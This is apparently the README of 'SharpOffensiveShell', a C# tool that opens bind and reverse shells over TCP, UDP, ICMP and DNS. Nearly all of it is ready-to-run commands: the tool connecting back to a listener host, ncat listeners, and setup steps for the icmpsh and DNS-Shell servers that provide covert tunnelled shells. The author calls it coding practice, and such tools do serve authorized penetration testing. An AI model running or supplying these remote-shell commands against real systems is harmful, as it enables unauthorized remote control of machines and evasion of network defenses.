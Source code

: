 # SharpOffensiveShell

A sort of simple shell which support multiple protocols. 

This project is just for improving my C# coding ability. The SharpOffsensiveShell DNS mode use the Native Windows API instead of the Nslookup command to perform DNS requests.

## QuickStart

SharpOffsensiveShell support .NET Framework 2.0

 ```
csc SharpOffensiveShell.cs
 ```

## TCP

**For bind shell**

```
sharpoffensiveshell.exe tcp listen 0.0.0.0 8080
```

```
ncat -v 1.1.1.1 8080
```

**For reverse shell**

```
ncat -lvp 8080
```

```
sharpoffensiveshell.exe tcp connect 1.1.1.1 8080
```

## UDP

**For bind shell**

```
sharpoffensiveshell.exe tcp listen 0.0.0.0 8080
```

```
ncat -u -v 1.1.1.1 8080
```

**For reverse shell**

```
ncat -u -lvp 8080
```

When  reverse connection accepted, type enter to make prompt display.

```
sharpoffensiveshell.exe tcp connect 1.1.1.1 8080
```

## ICMP

```
git clone https://github.com/inquisb/icmpsh
sysctl -w net.ipv4.icmp_echo_ignore_all=1
cd icmpsh && python icmpsh-m.py listenIP reverseConnectIP
```

```
sharpoffensiveshell.exe icmp connect listenIP
```

## DNS

```
pip install dnslib
git clone https://github.com/sensepost/DNS-Shell
```

**For direct mode**

```
python DNS-Shell.py -l -d [Server IP]
sharpoffensiveshell.exe dns direct ServerIP Domain 
```

**For recursive mode**

```
DNS-Shell.py -l -r [Domain]
sharpoffensiveshell.exe dns recurse Domain
```
